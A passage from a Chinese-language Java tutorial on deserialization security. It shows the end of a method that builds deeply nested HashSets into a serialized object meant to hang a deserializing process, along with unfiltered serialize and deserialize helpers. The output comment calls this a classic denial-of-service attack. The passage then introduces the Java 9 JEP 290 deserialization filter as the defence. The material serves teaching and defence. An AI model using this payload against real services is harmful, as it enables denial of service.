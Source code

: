 ```
          Set<Object> t2 = new HashSet<>();
          t1.add("test-" + i); // make it not equal to t2

          s1.add(t1); // root also add set
          s1.add(t2);

          s2.add(t1);
          s2.add(t2);

          s1 = t1;    // reference to t1, so that `root` can add new set from the last t1
          s2 = t2;
      }
      return serialize(root);
  }

  public static byte[] serialize(Object o) {
      ByteArrayOutputStream ba = new ByteArrayOutputStream();
      try {
          new ObjectOutputStream(ba).writeObject(o);
      } catch (IOException e) {
          throw new IllegalArgumentException(e);
      }
      return ba.toByteArray();
  }

  public static Object deserialize(byte[] bytes) {
      try {
          return new ObjectInputStream(
                  new ByteArrayInputStream(bytes)).readObject();
      } catch (IOException | ClassNotFoundException e) {
          throw new IllegalArgumentException(e);
      }
  }

} 
```

输出

Terminal

```
 // keep the process running, hanging there
  // and slowly slowing down the system, a classic DoS attack. 
```

## 8。Java 9 反序列化过滤器

Java 9， [JEP 290](http://web.archive.org/web/20220610024935/https://openjdk.java.net/jeps/290) 引入了反序列化过滤器`ObjectInputFilter`来过滤传入的序列化数据。

### 8.1 stack overflow 的反序列化过滤器
